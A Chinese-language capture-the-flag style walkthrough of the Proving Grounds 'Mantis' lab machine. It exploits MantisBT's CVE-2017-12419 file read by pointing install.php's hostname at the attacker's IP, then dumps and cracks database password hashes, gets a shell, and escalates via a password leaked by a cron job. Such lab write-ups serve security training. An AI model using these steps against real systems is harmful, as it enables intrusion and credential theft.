 ```yaml
---
title: Proving Grounds Practice-Mantis
date: 2025-7-30 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250730162805993](./Mantis/image-20250730162805993.png)

# 80端口

对80端口扫端口

![image-20250730164604605](./Mantis/image-20250730164604605.png)

其中`bugtracker`下是`mantis bug tracker`的登录界面，上网查询了该系统的默认登录密码，`administrator:root`但是无法登录，从网上查询到的安装教程中可知，这个网站使用默认密码登陆之后需要修改密码，所以应该是修改过密码的

![image-20250730164612056](./Mantis/image-20250730164612056.png)

然后对http://url/bugtracker进行扫目录

![image-20250730171855719](./Mantis/image-20250730171855719.png)

config目录下有配置文件，但是config_inc.php读取不到

![image-20250731114708733](./Mantis/image-20250731114708733.png)

config_inc.php.sample可以读取，但是其中的数据库连接密码是无法连接到数据库的

![image-20250730171546233](./Mantis/image-20250730171546233.png)

直接访问admin界面会跳转到登录界面，在github上查看了源码知道admin目录下还有其他界面

![image-20250731104927915](./Mantis/image-20250731104927915.png)

install界面最下方有更新数据库的选项，我们不输入任何信息点击更新就会跳转到这一步

![image-20250731105627475](./Mantis/image-20250731105627475.png)

查看wp是找到一个漏洞，我觉得这个洞真的不是很好找，我在筛选中添加了条件还是有很多漏洞，其中存在这个漏洞

[0023173: CVE-2017-12419: Arbitrary File Read inside install.php script - MantisBT](./https://mantisbt.org/bugs/view.php?id=23173)

![image-20250731110233958](./Mantis/image-20250731110233958.png)

## 漏洞利用

![image-20250731113057483](./Mantis/image-20250731113057483.png)

按照给出的漏洞利用方式，读取http://url/bugtracker/admin/install.php?install=3&hostname=攻击机ip

然后再日志中就可以看到要读取的文件

![image-20250731113243990](./Mantis/image-20250731113243990.png)

接下来就是要猜测网站根目录的路径，经过尝试是在`/var/www/html/bugtracker`下，配合上面信息收集到的`config`目录下的`config_inc.php`，读取该配置文件，其中有数据库连接账号密码

![image-20250731114451890](./Mantis/image-20250731114451890.png)

```
 mysql -h 192.168.147.204 -P3306 -u root -p --skip-ssl
```

使用这个账号密码可以成功连接到数据库![image-20250731114849027](./Mantis/image-20250731114849027.png)

```
show databases;
use bugtracker;
show tables;
select username,password from mantis_user_table;
```

可以通过数据库读取到管理员的账号密码信息

![image-20250731115235992](./Mantis/image-20250731115235992.png)

通过[hash类型识别网站](./https://hashes.com/en/tools/hash_identifier)识别hash类型，然后通过hashcat进行破解

![image-20250731115349822](./Mantis/image-20250731115349822.png)

最终得到账号密码为

```
administrator:prayingmantis
```

然后按照这篇漏洞说明报告创建相关的配置选项，然后访问http://url/bugtracker/workflow_graph_img.php，就可以getshell

![image-20250731142258228](./Mantis/image-20250731142258228.png)

![image-20250731142330947](./Mantis/image-20250731142330947.png)

# 提权

在提交local.txt时可以注意到用户mantis目录下有一把backup.sh，应该是用来备份的，运行pspy64，有个定时任务在运行，捕捉到了运行的密码，用这个密码切换到mantis用户

![image-20250731144454470](./Mantis/image-20250731144454470.png)

```
BugTracker007
```

![image-20250731144643228](./Mantis/image-20250731144643228.png)

该用户具有所有权限

![image-20250731144730912](./Mantis/image-20250731144730912.png)